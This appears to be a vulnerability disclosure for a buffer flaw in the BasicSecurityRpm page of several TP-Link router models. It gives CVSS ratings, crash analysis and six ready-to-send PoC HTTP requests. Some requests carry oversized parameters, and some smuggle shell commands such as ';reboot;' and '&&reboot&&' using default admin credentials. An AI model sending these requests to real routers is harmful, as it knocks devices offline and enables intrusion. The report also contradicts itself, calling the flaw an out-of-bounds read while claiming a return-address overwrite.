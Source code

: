 # TP-Link TL-WR941ND/TL-WR940N/TL-WR841N/TL-WR740N wireless router /userRpm/BasicSecurityRpm buffer read out-of-bounds vulnerability

## 1 Basic Information

- Vulnerability Type: Buffer read out-of-bounds
- Vulnerability Description: A buffer overflow vulnerability exists in TP-Link TL-WR940N V2/V4/V6、TP-Link TL-WR941ND V5、TL-WR841N V8 and TP-Link TL-WR740N V1/V2 wireless router, firmware version V4. Its /userRpm/BasicSecurityRpm implementation has a security vulnerability in processing stat GET key parameters, allowing remote attackers to submit special requests through the vulnerability, causing buffer out-of-bounds read errors, which may lead to memory-sensitive information leakage and denial of service.
- Device model:
   - TP-Link TL-WR940N V2/V4/V6、TP-Link TL-WR740N V1/V2、TL-WR841N V8、TP-Link TL-WR941ND V5

## 2 Vulnerability Value

- Maturity of Public Information: None

- Order of Public Vulnerability Analysis Report: None

- Stable reproducibility: yes

- Vulnerability Score (refer to CVSS)

   - V2：[8.5 High AV:N/AC:M/Au:S/C:C/I:C/A:C](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator?vector=(AV:N/AC:M/Au:S/C:C/I:C/A:C))
   - V3.1：[9.1 High AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H&version=3.1)

- Exploit Conditions

   - Attack Vector Type: Network
   - Attack Complexity: Low
   - Complexity of Exploit
     - Permission Constraints: authentication is required
     - User Interaction: No victim interaction required
   - Scope of Impact: Changed (may affect other components than vulnerable ones)
   - Impact Indicators:
     - Confidentiality: High
     - Integrity: High
     - Availability: High
   - Stability of vulnerability exploitation: Stable recurrence
   - Whether the product default configuration: There are vulnerabilities in functional components that are enabled out of the factory

- Exploit Effect

   - Denial of Service

## 3 PoC

The PoC of TP-Link TL-WR940N V4 is as follows:

```http
GET /WQHMMZVBUCBTYUKA/userRpm/BasicSecurityRpm.htm?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat=2033408&Save=Save HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://127.0.0.1:8081/WQHMMZVBUCBTYUKA/userRpm/BasicSecurityRpm.htm
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```

The PoC of TP-Link TL-WR940N V2 is as follows:

```http
GET /MZKBGETBOHFWYCNC/userRpm/BasicSecurityRpm.htm?stat||`aaa`=1640192&Save=Save HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://192.168.0.1/KMODQNKANSQJBYFA/userRpm/BasicSecurityRpm.htm
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```

The PoC of TP-Link TL-WR940N V6 is as follows:

```http
GET /DIKHXMDAUCBTYUKA/userRpm/BasicSecurityRpm.htm?stat;reboot;=1770496&Save=Save HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://192.168.0.1/XKZTZRGANXFYRCCA/userRpm/BasicSecurityRpm.htm
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```
The PoC of TP-Link TL-WR941ND V5 is as follows:

```http
GET /MZKBGETBOHFWYCNC/userRpm/BasicSecurityRpm.htm?stat&&reboot&&=1376769&Save=Save HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://192.168.0.1/YOKQCLEBKGHAVJDB/userRpm/BasicSecurityRpm.htm
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1


```
The PoC of TP-Link TL-WR841N V8 is as follows:

```http
GET /userRpm/BasicSecurityRpm.htm?stat$;reboot=1900545&Save=Save HTTP/1.1
Host: 0.0.0.0:49168
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Referer: http://0.0.0.0:49168/userRpm/BasicSecurityRpm.htm
Cookie: Authorization=
Upgrade-Insecure-Requests: 1

```

The PoC of TP-Link TL-WR740N is as follows:

```http
GET /userRpm/BasicSecurityRpm.htm?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat?stat=984833&Save=Save HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46YWRtaW4=
Connection: keep-alive
Referer: http://192.168.1.1/userRpm/BasicSecurityRpm.htm
Upgrade-Insecure-Requests: 1

```

## 4 Vulnerability Principle

When the Web management component receives a GET request, its /userRpm/BasicSecurityRpm component implements a security vulnerability in processing the stat GET key parameter. The length of the parameter key of stat can be any length and it is put into the stack without any boundary check, resulting in a read out-of-bounds. An attacker can exploit this vulnerability to overwrite the return address, which may lead to the disclosure of memory-sensitive information and denial of service.

The firmware is simulated by means of simulation, the simulation process and interface are as follows:

![](./imgs/fang.png)

![](./imgs/suc.png)

![](./imgs/tplink.png)

After sending the PoC, a buffer read out-of-bounds memory error occurred, encountered an `unexpected fatal signal 11` error and a BadVA error, causing the program to crash.

![](./imgs/read_err.png)

![](./imgs/err.png)

![](./imgs/fatal.png)

## 5. The basis for judging as a 0-day vulnerability

Search the BasicSecurityRpm keyword in the NVD database, and no vulnerabilities are found (the same series of vulnerabilities can be found by directly searching the interface name to find related historical vulnerabilities).

Search the BasicSecurityRpm keyword in the CNVD database, and no vulnerabilities are found (the same series of vulnerabilities can be found by directly searching the interface name to find related historical vulnerabilities).